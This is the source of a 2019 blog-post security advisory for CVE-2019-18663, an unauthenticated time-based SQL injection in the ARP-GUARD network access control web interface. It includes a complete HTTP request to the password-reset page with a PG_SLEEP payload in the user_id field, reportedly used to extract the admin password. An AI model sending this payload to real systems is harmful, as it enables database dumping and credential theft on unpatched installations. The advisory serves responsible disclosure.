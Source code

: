 ```yaml
---
layout: post
title: "CVE-2019-18663: SQL-Injection in ARP-GUARD"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: ISL Internet Sicherheitslösungen GmbH
- Product: ARP-GUARD
- Version: 4.0.0-5
- Vulnerability: SQL-Injection
- Fixed Version: 4.0.0-7

# Background

ARP-GUARD is a Network Access Control Solution to protect company networks against from unauthorised access. It identify allowed devices via their MAC address or certificates (802.1X).

From the vendor's website:
"ARP-GUARD makes sure that users don't use any unauthorised notebooks, smartphones or even wireless access points. Our software solution protects your IT infrastructure from malware-infected external devices and your intellectual property from unauthorised access! Our security solution provides reliable protection against unauthorised access to the internal LAN and WLAN, as well as the Internet. With ARP-GUARD, only authorized devices are granted access to your network!"

# Issue Description

While analyzing the implementation of the ARP-GUARD web interface, one SQL-Injection vulnerability has been identified, which can be exploited in order to read dump all database data, also the username and passwords for the web application. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.

Please consider the following HTTP request:

__HTTP-Request__

~~~ http
POST /login/forgot1 HTTP/1.1
Host: 10.10.10.1
Connection: close
Content-Length: 119
Cache-Control: max-age=0
Origin: https://10.10.10.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML,
  like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Referer: https://10.10.10.1/login/forgot1
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: session_id=whocares; S=whocares

answer=myniceanwser&check=Pr%C3%BCfen&username=username&user_id=
(SELECT 7529 FROM PG_SLEEP(10))
~~~

It was possible to extract the admin password for the web application via the time-based SQL-Injection.

# CVE

[CVE-2019-18663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18663)

# CVSSv3 Base Score

CVSS Base Score: __8.1__

CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
